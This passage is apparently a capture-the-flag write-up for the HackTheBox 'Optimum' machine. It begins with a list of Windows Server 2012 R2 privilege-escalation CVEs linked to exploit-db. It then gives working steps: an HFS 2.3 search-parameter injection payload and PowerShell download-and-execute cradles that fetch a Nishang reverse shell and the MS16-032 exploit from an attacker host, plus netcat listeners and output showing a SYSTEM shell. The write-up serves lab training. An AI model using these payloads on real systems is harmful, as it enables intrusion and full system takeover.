"20161213","CVE-2016-7224","3197874","VHD Driver Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Virtual Hard Drive","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40765/"
"20161213","CVE-2016-7224","3197873","VHD Driver Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Virtual Hard Drive","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/40765/"
"20170511","CVE-2017-0263","4019213","Win32k Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel-Mode Drivers","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/44478/"
"20181004","CVE-2018-8410","4457143","Windows Registry Elevation of Privilege Vulnerability","Windows Server 2012 R2","Issuing CNA","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/45436/"
"20170314","CVE-2017-0100","4012213","Windows COM Session Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/41607/"
"20160818","CVE-2016-3225","3161561","Windows SMB Server Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows SMB Server","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/45562/"
"20150908","CVE-2015-2524","3084135","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38202/"
"20150908","CVE-2015-2524","3082089","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38202/"
"20150908","CVE-2015-2524","3084135","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38202/"
"20150908","CVE-2015-2524","3082089","Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/38202/"
"20190409","CVE-2019-0796","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46715/"
"20190409","CVE-2019-0796","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46715/"
"20190409","CVE-2019-0796","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46715/"
"20190409","CVE-2019-0796","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46715/"
"20180122","CVE-2018-0751","4056898","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows Kernel","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/43515/"
"20160614","CVE-2016-3220","3164035","Security Update for Microsoft Graphics Component","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39991/"
"20160614","CVE-2016-3220","3164035","Security Update for Microsoft Graphics Component","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39991/"
"20190409","CVE-2019-0836","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46718/"
"20190409","CVE-2019-0836","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46718/"
"20190409","CVE-2019-0836","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46718/"
"20190409","CVE-2019-0836","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46718/"
"20170511","CVE-2017-0213","4019213","Windows COM Elevation of Privilege Vulnerability","Windows Server 2012 R2","Windows COM","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/42020/"
"20181113","CVE-2018-8550","4467703","Windows COM Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/45893/"
"20160510","CVE-2016-0173","3156017","Security Update for Windows Kernel-Mode Drivers","Windows Server 2012 R2","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39960/"
"20160510","CVE-2016-0173","3156017","Security Update for Windows Kernel-Mode Drivers","Windows Server 2012 R2 (server core installation)","","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/39960/"
"20190409","CVE-2019-0731","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46714/"
"20190409","CVE-2019-0731","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46714/"
"20190409","CVE-2019-0731","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46714/"
"20190409","CVE-2019-0731","4493467","Windows Elevation of Privilege Vulnerability","Windows Server 2012 R2","Microsoft Windows","Important","Elevation of Privilege","https://www.exploit-db.com/exploits/46714/"
'
```

We are using `MS16-032` as it is one of the stable exploit for Windows Server 2012 

[](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

## Failed Exploiting MS16-032

```powershell
iex(new-object net.webclient).downloadstring("http://10.10.14.74:8000/Invoke-MS16-032.ps1")
Invoke-MS16-032

"
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[!] No valid thread handle was captured, exiting!
"
```

## Architecture Problem

```powershell
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```

> Powershell is executed in 32bit environment (`C:\Windows\System32`), hence we should look for 64 bit powershell (`C:\Windows\sysnative`) - [0xdf](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#shell-as-system)
> 

### Download and Configure Reverse Shell Powershell Script

[](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Add the code below the script

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <attacker ip> -Port 4443
```

### Re-Exploiting HFS 2.3 Vulnerability Triggering 64bit Powershell



```
/?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+iex(new-object+net.webclient).downloadstring('http%3a//<attacker ip>%3a8000/Invoke-PowerShellTcp.ps1').}
```

You have to modify the attacker ip to get the reverse shell!

```bash
nc -lvnp 4443

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 10.129.86.23.
Ncat: Connection from 10.129.86.23:49165.
Windows PowerShell running as user kostas on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
True
PS C:\Users\kostas\Desktop>
"
```

### Modify the Reverse Shell Powershell Script

Modify the code below the script

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <attacker ip> -Port 4445
```

### Modifying the Invoke-MS16032 Script

To automatically trigger the reverse shell, add the code below the script

```powershell
Invoke-MS16032 -Command "iex(new-object net.webclient).downloadstring('http://10.10.14.74:8000/Invoke-PowerShellTcp.ps1')"
```

### Listen to Reverse Shell and Exploit

```powershell
iex(new-object net.webclient).downloadstring('http://10.10.14.74:8000/Invoke-MS16032.ps1')

"
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
"
```

```bash
nc -lvnp 4445

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.129.86.23.
Ncat: Connection from 10.129.86.23:49183.
Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop>whoami
nt authority\system
PS C:\Users\kostas\Desktop>
"
```

# Reference

- [https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#shell-as-system](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html#shell-as-system)